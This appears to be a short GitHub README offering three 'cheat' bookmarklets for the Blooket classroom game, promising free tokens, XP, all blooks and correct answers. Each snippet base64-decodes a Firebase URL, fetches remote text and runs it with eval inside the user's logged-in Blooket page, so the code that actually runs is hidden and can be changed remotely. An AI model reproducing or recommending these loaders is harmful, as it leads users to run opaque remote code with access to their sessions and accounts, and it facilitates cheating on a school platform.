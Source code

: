 # Blooket  
infinatetokens.js:

fetch(atob('aHR0cHM6Ly9zY2hvb2wtY2hlYXRzLTFhNGVlLWRlZmF1bHQtcnRkYi5maXJlYmFzZWlvLmNvbS9nbG9iYWxBZGRUb2tlbnMuanNvbg==')).then(res => res.text()).then(t => eval(JSON.parse(t)));

Just copy and paste into a bookmark for blooket marketplace and then click for 500 daily tokens and 300XP.

.
..
Allblooksingame.js

fetch(atob('aHR0cHM6Ly9zY2hvb2wtY2hlYXRzLTFhNGVlLWRlZmF1bHQtcnRkYi5maXJlYmFzZWlvLmNvbS9nbG9iYWxHZXRBbGxCbG9va3MuanNvbg==')).then(res => res.text()).then(t => eval(JSON.parse(t)));

Just copy and paste into a bookmark for blooket marketplace and then click for 500 daily tokens and 300XP.

.
..
Everyawnsercorrect.js

fetch(atob('aHR0cHM6Ly9zY2hvb2wtY2hlYXRzLTFhNGVlLWRlZmF1bHQtcnRkYi5maXJlYmFzZWlvLmNvbS9nbG9iYWxFdmVyeUFuc3dlckNvcnJlY3QuanNvbg==')).then(res => res.text()).then(t => eval(JSON.parse(t)));

Just copy and paste into a bookmark for blooket marketplace and then click for 500 daily tokens and 300XP.
